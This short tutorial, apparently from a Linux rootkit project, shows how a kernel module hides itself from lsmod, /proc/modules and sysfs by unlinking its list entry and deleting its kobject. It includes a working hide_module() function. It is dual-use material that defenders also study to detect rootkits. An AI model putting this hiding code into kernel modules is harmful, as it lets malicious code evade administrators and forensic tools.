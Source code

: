 ## Stealth 01
---

Loaded modules can be listed by `lsmod` and found through `/proc/modules` and `/sys/modules`.

### Hiding from `lsmod`
--- 
When module is loaded, it's associated with a struct module. All kernel modules are stored in a global liked list. Each loaded module is added to this linked list. The modules are populated in `/proc/modules` from this list, and the `lsmod` command reads `/proc/modules` to give it's output. 

To hide module from `lsmod` just need to remove module from that list:

```c
list_del_init(&__this_module.list);
```

This function is defined on `linux/list.h`:

```c
/**
 * list_del_init - deletes entry from list and reinitialize it.
 * @entry: the element to delete from the list.
 */
static inline void list_del_init (struct list_head *entry)
{
	__list_del_entry(entry);
	INIT_LIST_HEAD(entry);
}
```

### `struct kobject` in `linux/kobject.h`
---
A `kobject` struct represents a kernel object. 

```c
struct kobject {
	const char *name;
	struct list_head entry;
	struct kobject *parent;
	struct kset *kset;
	struct kobj_type *ktype;
	struct kernfs_node *sd;                 /* sysfs directory entry */
	struct kref	kref;
#ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	struct delayed_work	release;
#endif
	unsigned int state_initialized:1;
	unsigned int state_in_sysfs:1;
	unsigned int state_add_uevent_sent:1;
	unsigned int state_remove_uevent_sent:1;
	unsigned int uevent_suppress:1;
};
```

```c
static void hide_module(void)
{
  list_del_init(&__this_module.list);
  kobject_del(&THIS_MODULE->mkobj.kobj);
}
```





## References
---
- [Kernel Kobject Device Model](https://medium.com/powerof2/the-kernel-kobject-device-model-explained-89d02350fa03)
- [Linux Kernel: Sysfs and Kobjects](https://www.win.tue.nl/~aeb/linux/lk/lk-13.html)
